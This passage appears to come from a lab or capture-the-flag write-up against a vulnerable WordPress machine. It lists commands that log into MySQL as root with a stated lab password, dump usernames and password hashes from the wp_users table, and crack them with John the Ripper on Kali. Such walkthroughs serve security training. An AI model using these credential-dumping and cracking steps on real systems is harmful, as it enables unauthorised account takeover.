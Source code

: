 ![mysql3.png](Screengrabs/mysql3.png)

        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`

![wphashes.png](Screengrabs/wphashes.png)

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

![wphashes.png](Screengrabs/wphashes.png)
